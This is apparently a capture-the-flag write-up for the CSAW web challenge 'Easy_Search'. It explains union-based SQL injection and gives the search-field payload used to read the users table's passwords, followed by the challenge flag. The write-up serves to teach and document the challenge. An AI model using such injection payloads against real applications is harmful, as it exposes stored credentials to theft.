


# Easy_Search


Write up By
**Robe Zhang** [ThirdRepublic](https://github.com/ThirdRepublic)

## Challenge Description
> Oh boy SQLI sure is easy right?
Can you change the query that the search performs to get the admin's password?
```
web.chal.csaw.io:10103
```

## Background Information
The objective of the challenge is to use SQL injection to extract data from the database.  
The usage of the **UNION** statement allows for additional results to be appended to the SQL query.  
>> Union based SQL injection allows an attacker to extract information from the database by extending the results returned by the original query. The Union operator can only be used if the original/new queries have the same structure (number and data type of columns). [Reference](https://sqlwiki.netspi.com/injectionTypes/unionBased/#mysql)

[Read More](https://www.w3schools.com/sql/sql_injection.asp) <br />
[SQLi Cheat Sheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)

## Solution
The webpage was given. <br /> <br />
 <br />

Search:
> ' union select password from users; -- 

**Note** **```  --  ```** is an inline comment.  This ignores the rest of the SQL query.


## Flag
```
flag{W45_7h47_4n_4c7u4l_VlUn_0NC3}
```
